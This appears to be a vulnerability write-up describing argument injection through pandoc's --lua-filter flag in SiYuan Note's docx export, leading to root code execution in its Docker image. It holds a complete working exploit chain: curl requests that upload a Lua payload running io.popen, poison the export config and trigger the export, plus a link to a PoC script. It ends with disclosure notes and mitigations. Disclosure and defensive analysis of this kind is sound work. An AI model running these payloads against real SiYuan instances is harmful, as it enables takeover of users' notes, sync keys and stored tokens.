

SiYuan Note. Self-hosted Notion clone, Go kernel, Electron shell. People run it as their second brain. Container is rootful. Pulled v3.6.2.

### // Recon

Export pipeline. Markdown → docx goes through pandoc. That means a binary on disk, an args array, and somewhere a settings page where the user picks both. Always look at the settings page. `kernel/api/setting.go` had a function called `setExport`. Always look at `setExport`.

### // The hole

```go
// kernel/api/setting.go:355
if !util.IsValidPandocBin(exp.PandocBin) {
    ret.Code, ret.Msg = -1, "invalid pandoc binary"
    return
}
Conf.Export = exp                       // PandocParams stored as-is
```

`PandocBin` is checked — magic bytes plus `--version` probe. `PandocParams` is the string sitting next to it on the same struct. No regex. No allowlist. No `shellquote.Split` round-trip to sanity-check the tokens. Goes straight into config.

Downstream:

```go
// kernel/model/export.go:780
params := util.ReplaceNewline(Conf.Export.PandocParams, " ")
if "" != params {
    customArgs, _ := shellquote.Split(params)
    args = append(args, customArgs...)
}
// ...
pandoc := exec.Command(Conf.Export.PandocBin, args...)   // line 812
```

`shellquote.Split` is the bash word-splitter. Hand it `--lua-filter "/x.lua"` and you get back `["--lua-filter", "/x.lua"]` — two clean argv slots. Pandoc accepts `--lua-filter` from the command line. Lua filters run Lua. Lua has `os.execute`. Done.

The sibling endpoint `/api/convert/pandoc` exists too — passes user args straight to `exec.Command` — but the desktop-only gate kills it in Docker:

```go
// kernel/util/pandoc.go:35
if "" == PandocBinPath || ContainerStd != Container {
    err = ErrPandocNotFound
    return
}
```

`ExportDocx` skipped that check. The lock was on the front door; the side door had a doormat.

### // The chain



### // Mechanics

Three writes, one read. Each one touches a different endpoint and each endpoint thinks it's doing something boring.

`/api/file/putFile` lands a Lua script in `workspace/data/public/`. It's the file API. Admin endpoint. Doing its job — writing the bytes you told it to. No content sniff. Doesn't care that you wrote `os.execute` inside an `io.popen` inside a `Pandoc(doc)` handler.

`/api/setting/setExport` accepts the export config. Validates the binary. Doesn't validate the args string sitting next to the binary. Persists both.

`/api/export/exportDocx` runs the export. Pulls `PandocParams` out of config. Splits. Appends. `exec.Command`. The container check that gates the sibling endpoint is missing here. Pandoc starts with the attacker's `--lua-filter` flag pointing at the file `putFile` wrote. The filter's `Pandoc(doc)` hook fires before any document conversion happens. Output gets written next to the payload. `/api/file/getFile` reads it back.

Lua filter trust model is the whole game. Pandoc treats `--lua-filter` as code, not data — exactly like `-exec` on `find`. Anyone passing pandoc an argv they didn't write is handing a shell to whoever wrote it.

### // The payload

Stage the filter:

```bash
curl -X POST http://127.0.0.1:6806/api/file/putFile \
    -F 'path=/data/public/rce.lua' \
    -F 'isDir=false' \
    -F 'file=@-;filename=rce.lua' << 'EOF'
function Pandoc(doc)
    local f = io.popen("id 2>&1")
    local out = f:read("*a")
    f:close()
    local fh = io.open("/siyuan/workspace/data/public/out.txt", "w")
    fh:write(out); fh:close()
    return doc
end
EOF
```

Poison the config:

```bash
curl -X POST http://127.0.0.1:6806/api/setting/setExport \
    -H "Content-Type: application/json" \
    -d '{
      "pandocBin":"/usr/bin/pandoc",
      "pandocParams":"--lua-filter \"/siyuan/workspace/data/public/rce.lua\""
    }'
```

Trigger:

```bash
curl -X POST http://127.0.0.1:6806/api/export/exportDocx \
    -H "Content-Type: application/json" \
    -d '{"id":"DOC_ID","savePath":"/siyuan/workspace/temp/export","removeAssets":false}'
```

`DOC_ID` from `/api/filetree/createDocWithMd` — one extra call, content doesn't matter, pandoc never gets that far.

### // The spike

```
$ curl -s http://127.0.0.1:6806/api/file/getFile \
    -d '{"path":"/data/public/out.txt"}'
uid=0(root) gid=0(root) groups=0(root)
```

Container is `b3log/siyuan`. Ships pandoc at `/usr/bin/pandoc`. PID 1 is root. `/siyuan/workspace` holds the SQLite block store, attachments, sync keys, and whichever third-party tokens the user wired into plugins. Everything readable, everything writable.

Auth requirement is "the SiYuan API token" — a single shared secret stored in cleartext in the config and printed to stdout on first boot. People paste it into reverse proxies, share it with mobile clients, leak it in support threads. Bar is low.

End-to-end driver in [poc.py](https://github.com/supperhellokitty20/siyuan-rce/blob/main/poc.py) — stages the filter, snapshots the original config, fires the export, reads the output, restores `PandocParams` on the way out.

Cold to root, about ten seconds.

### // Desktop note

Electron build spawns the kernel on a random port. `lsof -iTCP -sTCP:LISTEN -P | grep SiYuan` gives it up. Pandoc isn't bundled — user has to `brew install` it for the export feature to work at all. If pandoc is there, both vectors fire; the direct `/api/convert/pandoc` path opens up because `ContainerStd == Container` outside Docker. The argv-injection lives in two endpoints, gated by one missing check.

### // Takeaways

Argv is code. Anything that hands attacker-controlled tokens to a binary with a plugin/script flag (`--lua-filter`, `-exec`, `-X`, `--load`, `-e`) is RCE pretending to be configuration. Validating the binary while leaving the args string raw is theater — the binary was never the dangerous part. And every container-mode gate needs to be applied to every code path that reaches the same sink, not just the obvious one. Sibling endpoints fork; one of them forgets.

### // Disclosure

Reported upstream. Maintainer acknowledged within a day. Patch tracked; advisory pending. Until it lands: don't expose the kernel port to anything beyond loopback, rotate the API token, and if you can stomach it, drop pandoc out of the image — export-to-docx degrades, the RCE doesn't.
